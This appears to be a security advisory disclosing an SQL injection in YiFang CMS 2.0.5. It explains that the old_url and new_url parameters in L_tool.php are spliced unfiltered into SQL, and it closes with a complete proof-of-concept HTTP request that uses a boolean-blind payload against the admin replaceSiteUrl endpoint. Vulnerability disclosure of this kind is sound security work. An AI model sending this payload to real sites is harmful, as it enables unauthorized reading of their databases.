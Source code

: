 # Vendor

YiFang

# Product

YiFang CMS

# version

 2.0.5

# Download 

https://www.yifangcms.com

# Vulnerability

Yifang latest version 2.0.5 SQL injection

# Description

The content entered by the user is not filtered, causing the user to perform SQL injection by constructing malicious commands.

# Analysis

Cause of vulnerability 
app/logic/L_tool.php
1. Directly splice user input: $dataObj->request->old_url and $dataObj->request->new_url directly embed SQL statements
2. Lack of parameterization processing: preprocessing statements or escape special characters
3. Inadequate verification: Parameter verification (validatorRequest) only checks the existence of fields, and does not filter dangerous characters

<img width="1497" height="409" alt="image" src="https://github.com/user-attachments/assets/0a23706c-076d-476e-ab8d-bd48ab53ab2e" />

Use boolean blind to prove the vulnerability: 

Test found that the first digit of user() is r
<img width="1030" height="396" alt="image" src="https://github.com/user-attachments/assets/ce0199ba-ba2c-44fd-a583-eb056c3f26fd" />

<img width="1027" height="425" alt="image" src="https://github.com/user-attachments/assets/bf22cc3d-2a62-46ed-8ef4-9a3a9e20cb40" />


# POC
```
POST /admin/tool/replaceSiteUrl HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0
Cookie: cms_session=grq61ku3fmt3v3ll42dg028i66
Content-Type: application/x-www-form-urlencoded
Content-Length: 89

old_url=http://localhost&new_url='%2b(SELECT+IF(SUBSTRING(USER(),1,1)='r','b',0x00))%2b'&
```
